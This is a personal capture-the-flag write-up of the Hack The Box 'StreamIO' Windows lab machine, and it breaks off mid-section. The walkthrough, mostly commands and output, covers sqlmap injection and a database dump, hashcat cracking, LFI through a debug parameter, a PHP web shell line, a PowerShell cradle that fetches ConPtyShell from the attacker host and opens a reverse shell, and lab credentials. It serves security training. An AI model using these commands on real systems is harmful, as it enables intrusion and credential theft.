






=
tags: #windows #ad #active-directory #sqlmap #sql-injection #sqli

==

* scenario
** ip
   #+begin_src 
   10.10.11.158
   #+end_src
* nmap 
** basic scan
   #+begin_src bat
   $ sudo nmap -sV -sC -oA nmap/streamIO.basic 10.10.11.158

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-05 17:17:39Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
|_ssl-date: 2026-01-05T17:18:28+00:00; +12h56m41s from scanner time.
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 12h56m40s, deviation: 0s, median: 12h56m40s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-01-05T17:17:49
|_  start_date: N/A
   #+end_src
   let's add these to our hosts
   #+begin_src 
   Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
   #+end_src
** full scan
   #+begin_src 
   $ sudo nmap  -p- -A -T4 -oA nmap/streamIO.full 10.10.11.158
   #+end_src
   shows these additional ports:
   #+begin_src 
   9389/tcp  open  mc-nmf        .NET Message Framing
   49667/tcp open  msrpc         Microsoft Windows RPC
   49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
   49674/tcp open  msrpc         Microsoft Windows RPC
   49704/tcp open  msrpc         Microsoft Windows
   49730/tcp open  msrpc         Microsoft Windows RPC
   #+end_src
* http
  both =streamIO.htb= and =watch.streamIO.htb= lead to the same default IIS webserver page.
* smb - check if null session is allowed
  #+begin_src bat
  $ rpcclient -U "" -N 10.10.11.158

Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
  #+end_src
* https
  however, https://streamIO.htb and https://watch.streamIO.htb are functioning web apps
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-01-05_15-16.png @ 2026-01-05 15:17:31
  

  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-01-05_15-17.png @ 2026-01-05 15:17:38
  
* login form
  there's a login form at:
  #+begin_src 
  https://streamio.htb/login.php
  #+end_src
  also, a regitration form exists at =register.php=; but the signup credentials don't really
  work on the login form. let's try sql injection
* sql injection
  #+begin_src 
  something' or '1'='1
  #+end_src
  didn't work in either field
* sqlmap
 #+begin_src bat
 sqlmap 'https://streamio.htb/login.php' --data 'username=ttest&password=test' --batch

POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 64 HTTP(s) requests:
---
Parameter: username (POST)
    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: username=ttest';WAITFOR DELAY '0:0:5'--&password=test
 #+end_src
 IMPORTANT: the option =--flush-session= is to be used when a change is made to a technique; for
 example, i didn't want to rely on time-based techniques which is used by default (?) and when
 i supplied =--technique=BEAU=, it didn't take effect and i had to rerun with =--flush-session=.
** try os shell
   #+begin_src 
   $ sqlmap 'https://streamio.htb/login.php' --data 'username=ttest&password=test' --os-shell --batch 

[13:21:15] [CRITICAL] unable to proceed without xp_cmdshell
   #+end_src
** check current user and if they're dba
   #+begin_src bat
   $ sqlmap 'https://streamio.htb/login.php' --data 'username=ttest&password=test' --current-user --batch

current user: 'db_user'
   #+end_src
   #+begin_src bat
   $ sqlmap 'https://streamio.htb/login.php' --data 'username=ttest&password=test' --is-dba --batch

current user is DBA: False 
   #+end_src
** try and write a file
   #+begin_src bash
     echo '<?php system($_GET["cmd"]); ?>' > shell.php
     #+end_src
   #+begin_src bat
   sqlmap -u 'https://streamio.htb/login.php' --data 'username=ttest&password=test' --file-write "shell.php" --file-dest "C:\inetpub\wwwroot\shell.php" --batch

[CRITICAL] unable to proceed without xp_cmdshell 
  #+end_src
** dump data
   after a few runs, we learn the name of the database is =STREAMIO= and that it has 2 tables -
   =movies= and =users=; let's try and dump the =users= table
   #+begin_src bat
   $ sqlmap 'https://streamio.htb/login.php' --data 'username=ttest&password=test' -D STREAMIO -T users --dump --batch

Database: STREAMIO
Table: users
[29 entries]
+----+----------+----------------------------------------------------+-----------------------
| id | is_staff | password                                           | username
+----+----------+----------------------------------------------------+-----------------------
| 3  | 1        | c6600604929edcaa8332d89c99c9239                    | James
| 4  | 1        | 925e5408ecb67aea449373d668b7359e                   | Theodore
| 5  | 1        | 083ffae904143c4796e464dac33c1f7d                   | Samantha 
| 6  | 1        | 08344b85b329d7efd611b7a7743e8a09                   | Lauren
| 7  | 1        | d62be0dc82071bccc1322d64ec5b6c51                   | William
| 8  | 1        | f87d3c0d6c8fd686aacc6627f1f493a5                   | Sabrina
| 9  | 1        | f03b910e2bd0313a23fdd7575f34a694                   | Robert
| 10 | 1        | 3577c47eb1e12c8ba021611e1280753c                   | Thane
| 11 | 1        | 35394484d89fcfdb3c5e447fe749d213                   | Carmon
| 12 | 1        | 54c88b2dbd7b1a84012fabc1a4c73415                   | Barry
| 13 | 1        | fd78db29173a5cf701bd69027cb9bf6b                   | Oliver
| 14 | 1        | b83439b16f844bd6ffe35c02fe21b3c0                   | Michelle
| 15 | 1        | 0cfaaaafb559f081df2befbe66686de0                   | Gloria
| 16 | 1        | b22abb47a02b52d5dfa27fb0b534f693                   | Victoria
| 17 | 1        | 1c2b3d8270321140e5153f6637d3ee53                   | Alexendra
| 18 | 1        | 22ee218331afd081b0dcd8115284bae3                   | Baxter
| 19 | 1        | ef8f3d30a856cf166fb8215aca93e9ff                   | Clara
| 20 | 1        | 3961548825e3e21df5646cafe11c6c76                   | Barbra
| 21 | 1        | ee0b8a0937abd60c2882eacb2f8dc49f                   | Lenord
| 22 | 1        | 0049ac57646627b8d7aeaccf8b6a936f                   | Austin
| 23 | 1        | 8097cedd612cc37c29db152b6e9edbd3                   | Garfield
| 24 | 1        | 6dcd87740abb64edfa36d170f0d5450d                   | Juliette
| 25 | 1        | bf55e15b119860a6e6b5a164377da719                   | Victor
| 26 | 1        | 7df45a9e3de3863807c026ba48e55fb3                   | Lucifer
| 27 | 1        | 2a4e2cf22dd8fcb45adcb91be1e22ae8                   | Bruno
| 28 | 1        | ec33265e5fc8c2f1b0c137bb7b3632b5                   | Diablo
| 29 | 1        | dc332fb5576e9631c9dae83f194f8e70                   | Robin
| 30 | 1        | 384463526d288edcc95fc3701e523bc7                   | Stan
| 31 | 1        | b779ba15cedfd22a023c4d8bcf5f2332                   | yoshihide
+----+----------+----------------------------------------------------+-----------------------
   #+end_src
* use hashcat to crack these passwords
  #+begin_src bat
  $ hashcat -m 0 passwords.list /usr/share/wordlists/rockyou.txt

3577c47eb1e12c8ba021611e1280753c:highschoolmusical
ee0b8a0937abd60c2882eacb2f8dc49f:physics69i
b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..
ef8f3d30a856cf166fb8215aca93e9ff:%$clara
2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
6dcd87740abb64edfa36d170f0d5450d:$3xybitch
08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##
b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123
b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!
f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$
  #+end_src
  we're able to login, but it's not obvious there exist other pages to view.
* fuzz pages
** streamio.htb
  #+begin_src 
  ffuf -s -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u https://streamio.htb/FUZZ.php

Contact
About
Index
Login
logout
Register
  #+end_src
  doesn't discover anything new.
** watch.streamio.htb 
   #+begin_src 
   $ ffuf -s -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u https://watch.streamio.htb/FUZZ.php
   
search
Search
Index
INDEX
SEARCH
blocked
   #+end_src
* blocked.php
  just a static page
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-01-08_19-24.png @ 2026-01-08 19:25:52

* search.php
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-01-08_19-19.png @ 2026-01-08 19:19:55
  
  
  here's the curl request for the string =test=
  #+begin_src bash
  curl 'https://watch.streamio.htb/search.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br, zstd' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: https://watch.streamio.htb' -H 'Connection: keep-alive' -H 'Referer: https://watch.streamio.htb/search.php' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -H 'Priority: u=0, i' --data-raw 'q=test'
  #+end_src
  from the results, it's obvious the mysql query is using =LIKE %=
* rerun sqlmap
  let's use the above curl request and capture the output
  #+begin_src bat
  $ sqlmap 'https://watch.streamio.htb/search.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br, zstd' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: https://watch.streamio.htb' -H 'Connection: keep-alive' -H 'Referer: https://watch.streamio.htb/search.php' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -H 'Priority: u=0, i' --data-raw 'q=test' --batch
  #+end_src
  going through the output, turns out we get redirected to =blocked.php= on many occasions
  because it looks like certain strings are forbidden. the example below results in a redirect
  #+begin_src 
  test%' UNION ALL SELECT NULL,NULL--
  #+end_src
  after playing around a bit, turns out the culprit is the string =all=. not sure what - if
  any - tamper script can help. also wondering if it's infact an sql injection vuln. since we
  could already get the data out of the database from the other page, it might not be the case
  that we're supposed to do the same exploit here - given also that the movie table is also
  accessible from injection in the other page.
  #+begin_src bat
  $ sqlmap 'https://watch.streamio.htb/search.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br, zstd' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: https://watch.streamio.htb' -H 'Connection: keep-alive' -H 'Referer: https://watch.streamio.htb/search.php' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -H 'Priority: u=0, i' --data-raw 'q=test' --batch --level=5 --risk=3 -v 6 --dbms mssql --flush-session > sqlmap-rerun.txt
  #+end_src
  going through the output:
  #+begin_src 
  [WARNING] the back-end DBMS is not Microsoft SQL Server
  [CRITICAL] sqlmap was not able to fingerprint the back-end database management system
  #+end_src
  let's see if we can get some data out of it.
  #+begin_src bat
  $ sqlmap 'https://watch.streamio.htb/search.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br, zstd' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: https://watch.streamio.htb' -H 'Connection: keep-alive' -H 'Referer: https://watch.streamio.htb/search.php' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -H 'Priority: u=0, i' --data-raw 'q=test' --batch --level=5 --risk=3 -v 6 --current-user --is-dba --flush-session

sqlmap identified the following injection point(s) with a total of 300 HTTP(s) requests:
---
Parameter: q (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=test%' AND 7209=7209 AND 'cGXJ%'='cGXJ

  [CRITICAL] sqlmap was not able to fingerprint the back-end database management system
  #+end_src
* OFFICIAL SOLUTION
** the /admin path
   glanced at the pdf and it turns out there's an =/admin= path on http://streamio.htb:
   #+begin_src bat
   $ ffuf -s -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u https://streamio.htb/FUZZ

images
Images
admin
css
js
fonts
IMAGES
Fonts
Admin
CSS
JS
   #+end_src
** test for LFI in the admin panel
   the admin panel links pages with query parameters such as =user==, =staff==, =movie==, =message==
   #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-01-13_10-43.png @ 2026-01-13 10:44:16
   

   let's see if we can find an LFI:
   #+begin_src bat
   $ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'https://streamio.htb/admin/?FUZZ=' -fs 18
   #+end_src
   returns nothing; tried with the Jhaddix list, but same result; actually these wouldn't work
   because the paths there are linux-based.
** try manual file inclusion
   #+begin_src 
   https://streamio.htb/admin/?C:\inetpub\wwwroot\web.config=
   #+end_src
   has no effect
   #+begin_src
   C:\Windows\win.ini
   #+end_src
   same for this. attempted running ffuf with a windows LFI wordlist, but no hits:
   #+begin_src bat
   $ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Windows-adeadfed.txt -u https://streamio.htb/admin/?FUZZ= -fs 18
   #+end_src
   i realized getting rid of the final === in the URL is fine; so try again:
   #+begin_src 
   ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u https://streamio.htb/admin/?FUZZ
   #+end_src
   nothing, and no changes with the widows wordlist.
** the debug endpoint (from ippsec)
   well it was just this - *except, with the parameters wordlist from burp and adding the*
   *cookie from an intercepted request because this is an authenticated endpoint*
   #+begin_src bat
   $ ffuf -k -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u https://streamio.htb/admin/?FUZZ -H 'Cookie: PHPSESSID=4jv96chg02g6vchc77du96qbe7' -fs 1678

debug   [Status: 200, Size: 1712, Words: 90, Lines: 50, Duration: 59ms]
movie   [Status: 200, Size: 320235, Words: 15986, Lines: 10791, Duration: 54ms]
staff   [Status: 200, Size: 12484, Words: 1784, Lines: 399, Duration: 60ms]
user    [Status: 200, Size: 2073, Words: 146, Lines: 63, Duration: 48ms]
   #+end_src
   so now we know the additional endpoint =debug=. we get the same panel, but now with an
   additional message:
   #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-01-17_10-22.png @ 2026-01-17 10:22:34
   
   
   this doesn't seem to do anything else.
   following ippsec, did a feroxbuster run which revealed this page:
   #+begin_src 
   https://streamio.htb/admin/master.php
   #+end_src
   tried supplying =master.php= as a value to the debug parameter; however, it just displays
   all the user+staff+movie management pages together.
** master.php
   trying to access this file directly with the =/admin/master.php= endpoint results in this
   message:
   #+begin_src 
   Only accessable through includes
   #+end_src
   so here's the actual evidence we might need to look for LFI
** PHP Session Poisoning
   tried some fuckery with filters but it didn't work; the feroxbuster run had already
   uncovered a couple of log files, so it was a hint that it might be the way to go;
   from the [[file:d:/code/htb/academy/modules/file-inclusion/log-poisoning.org::*PHP Session Poisoning][section on log poisoning]], we know the default location for log files in windows
   is =C:\Windows\Temp=, and the naming scheme also follows a known pattern =sess_<PHPSESSID>=
   let's try and include it with the debug param.
   #+begin_src bash
   https://streamio.htb/admin/?debug=C:\Windows\Temp\sess_4jv96chg02g6vchc77du96qbe7
   #+end_src
   visiting the page, we see this:
   #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-01-17_19-26.png @ 2026-01-17 19:26:44
   

   the session file does not contain anything we can change, so it's not exploitable.
   however, it is susceptible to LFI. for e.g. including =C:\Windows\win.ini= reveals
   #+begin_src 
   this option is for developers only; for 16-bit app support [fonts] [extensions] [mci extensions] [files] [Mail] MAPI=1 
   #+end_src
** fuzz for IIS server files
   #+begin_src 
   ffuf -k -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt:FUZZ -u https://streamio.htb/admin/?debug=FUZZ -H 'Cookie: PHPSESSID=4jv96chg02g6vchc77du96qbe7' -fs 1678
   #+end_src
   used 2 other windows wordlists (=grep -r inetpub /usr/share/seclists/Fuzzing=) but didn't
   return anything useful.
** filter
   so it turns out filters work as well:
   #+begin_src bat
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=C:\Windows\win.ini
   #+end_src
   i was able to get the source code of the =index=, =master=, =is_staff=,... pages. the index page
   contains the db login info for the =db_admin= user.
   #+begin_src 
   "UID" => "db_admin", "PWD" => 'B1@hx31234567890'
   #+end_src
*** from ippsec
    looking inside the =master.php= file, it is executing code directly from the *POST* parameter:
    #+begin_src bash
    eval(file_get_contents($_POST['include']));
    #+end_src
    =file_get_contents= can be used to read remote files; so we can use it to read and execute a
    reverse shell.
    but first, check if we can get it to echo some data; create a =test.php= file and add:
    #+begin_src bash
    echo pleasesubscribe
    #+end_src
    then read this file with =file_get_contents= like so:
    #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-01-21_11-01.png @ 2026-01-21 11:01:43
    
    
    the request type has to be changed from *GET* to *POST* (right click and =change request type=)
    start an nc listener and we can find that the response includes the words
**** the conpty reverse shell
     "on windows the reverse shell i like using is the [[https://github.com/antonioCoco/ConPtyShell][conpty shell]]"; copy the
     =Invoke-ConPtyShell.ps1= file  and then add the following to the earlier =test.php= file:
     #+begin_src 
     system("powershell IEX(IWR http://10.10.16.3/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 9001");
     #+end_src
     now when we call the =test.php= file, we get a shell.
** try and find the user flag
   we need to get the creds for one of =Martin= or =nikk37= users for the user flag; =yoshihide=
   does not have a home directory.
*** snaffler
    transferred this via wget and ran it, but no dice.
    #+begin_src 
    .\Snaffler.exe -s -o snaffler.log
    #+end_src
*** lazagne
    #+begin_src 
    lazagne.exe all
    #+end_src
    same, nothing was returned
*** mssql instance
    let's check the local instance given we already have the password
    #+begin_src 
    sqlcmd -S localhost -U db_admin -P B1@hx31234567890

1> enable_xp_cmdshell 
2> go 
Msg 2812, Level 16, State 62, Server DC, Line 1       
Could not find stored procedure 'enable_xp_cmdshell'. 
    #+end_src
*** Monitoring for Process Command Lines
    from [[file:d:/code/htb/academy/modules/windows-privilege-escalation/interacting-with-users.org::*Monitoring for Process Command Lines][the section]] on user interaction, host =procmon.ps1= on the attack host with contents:
    #+begin_src ps
     while($true)
     {

	 $process = Get-WmiObject Win32_Process | Select-Object CommandLine
	 Start-Sleep 1
	 $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
	 Compare-Object -ReferenceObject $process -DifferenceObject $process2

     }
     #+end_src
    and access with =IEX (iwr 'http://10.10.10.205/procmon.ps1')=; this errors out with some
    parsing issue, let's check if it works with =-UseBasicParing= as suggested
    #+begin_src bat
   iwr 'http://10.10.16.3/procmon.ps1' -UseBasicParsing
StatusCode        : 200
StatusDescription : OK
Content           : {119, 104, 105, 108...}
RawContent        : HTTP/1.0 200 OK
                    Content-Length: 255
                    Content-Type: application/octet-stream
                    Date: Tue, 20 Jan 2026 15:03:14 GMT
                    Last-Modified: Tue, 20 Jan 2026 14:46:14 GMT
                    Server: SimpleHTTP/0.6 Python/3.13.7
                    ...
Headers           : {[Content-Length, 255], [Content-Type, application/octet-stream]...
RawContentLength  : 255
    #+end_src
    do this instead:
    #+begin_src bat
      IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.3/procmon.ps1')
    #+end_src
    but this also runs into an access issue with =Get-WmiObject=.
*** hold on -- back to mssql
    we didn't properly check the *streamio_backup* database for users; perhaps it contains other
    creds?
    #+begin_src sql
   PS C:\inetpub> sqlcmd -S localhost -U db_admin -P B1@hx31234567890

1> SELECT COUNT(*) FROM streamio_backup.dbo.users; 
2> GO 

-----------
8

(1 rows affected)

1> select * from streamio_backup.dbo.users; 
2> go 
id     username     password
------ ----------   -----------------------------------------------     
1      nikk37       389d14cb8e4e9b94b137deb1caf0612a
2      yoshihide    b779ba15cedfd22a023c4d8bcf5f2332
3      James        c660060492d9edcaa8332d89c99c9239
<SNIP>

(8 rows affected)
    #+end_src
   voila! crack the password with hashcat; and we get:
   #+begin_src 
   get_dem_girls2@yahoo.com
   #+end_src
*** evil-winrm session
    #+begin_src 
   evil-winrm -i 10.129.5.40 -u nikk37 -p 'get_dem_girls2@yahoo.com'

*Evil-WinRM* PS C:\Users\nikk37\Desktop> cat user.txt
74b176075a8603358f4155705686035e
    #+end_src
* privilege escalation
** check privs
   #+begin_src bat
   ,*Evil-WinRM* PS C:\Users\nikk37\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
   #+end_src
** groups
   #+begin_src bat
   ,*Evil-WinRM* PS C:\Users\nikk37\Desktop> net user nikk37

User name                    nikk37
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/22/2022 1:57:16 AM
Password expires             Never
Password changeable          2/23/2022 1:57:16 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/22/2022 2:39:51 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
   #+end_src
   we might be able to access this system via rdp; let's try
** rdp access
   #+begin_src bat
   xfreerdp /v:10.129.5.189 /u:nikk37 /p:'get_dem_girls2@yahoo.com' /size:1920x1080
   #+end_src
   errors out
** rusthound
   #+begin_src 
   rusthound-ce -u nikk37 -p 'get_dem_girls2@yahoo.com' -d 'streamio.htb' -c All
   #+end_src
   let's zip the json files
   #+begin_src 
   zip -r streamio.zip *.json
   #+end_src
   going through the graph, =nikk37= has no special permissions or outbound object controls
   but =Martin= is an admin, so presumably we need to find a way to pivot to him.
** lazagne & snaffler
   nothing is returned, again.
** powershell history
   the file does not exist.
** kerberoasting
   #+begin_src bat
   impacket-GetUserSPNs -dc-ip 10.129.5.246 streamio.htb/nikk37

No entries found!
   #+end_src
* ippsec
** the 'Add' page on watch.streamio.htb
   *"if the page returns the same output on valid/invalid emails, I have a hard time finding*
   *SQL injection in that"*
** feroxbuster
   uses this tool to find pages. faster than gobuster, and also has an interactive filtering 
   mechanism which looks decent.
   #+begin_src bat
   feroxbuster -k -u https://streamio.htb -x php -o streamio.htb.feroxbuster -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
   #+end_src
   NOTE: the default wordlist includes capitals and lowercase words which are considered
   separately in IIS.
** sending the movie search request to ffuf to try special characters
   #+begin_src bash
   ffuf -k -u https://watch.streamio.htb/search.php -d "q=FUZZ" -w /usr/share/seclists/Fuzzing/special-chars.txt -H "Content-Type: application/x-www-form-urlencoded"

>      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1332ms]
'      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1338ms]
`      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1342ms]
)      [Status: 200, Size: 1345, Words: 64, Lines: 42, Duration: 1378ms]
;      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1389ms]
]      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1409ms]
~      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1398ms]
[      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1418ms]
.      [Status: 200, Size: 6704, Words: 330, Lines: 194, Duration: 1420ms]
\      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1421ms]
#      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1375ms]
,      [Status: 200, Size: 3934, Words: 198, Lines: 114, Duration: 1377ms]
}      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1376ms]
!      [Status: 200, Size: 2144, Words: 98, Lines: 66, Duration: 1377ms]
-      [Status: 200, Size: 10048, Words: 513, Lines: 282, Duration: 1375ms]
=      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1437ms]
"      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1378ms]
(      [Status: 200, Size: 1345, Words: 64, Lines: 42, Duration: 1378ms]
{      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1425ms]
<      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1437ms]
@      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1377ms]
$      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1378ms]
^      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1438ms]
,*     [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1379ms]
/      [Status: 200, Size: 1303, Words: 58, Lines: 42, Duration: 1369ms]
|      [Status: 200, Size: 1031, Words: 46, Lines: 34, Duration: 1369ms]
?      [Status: 200, Size: 1612, Words: 77, Lines: 50, Duration: 1369ms]
:      [Status: 200, Size: 29151, Words: 1600, Lines: 786, Duration: 1493ms]
+      [Status: 200, Size: 195757, Words: 9817, Lines: 5498, Duration: 1494ms]
%      [Status: 200, Size: 253314, Words: 12337, Lines: 7178, Duration: 1487ms]
&      [Status: 200, Size: 253314, Words: 12337, Lines: 7178, Duration: 1511ms]
_      [Status: 200, Size: 253314, Words: 12337, Lines: 7178, Duration: 1463ms]
:: Progress: [32/32] :: Job [1/1] :: 40 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
   #+end_src
   here, we can do a =filter lines= with =-fl 34= to filter out the normal responses. that looks
   like:
   #+begin_src 
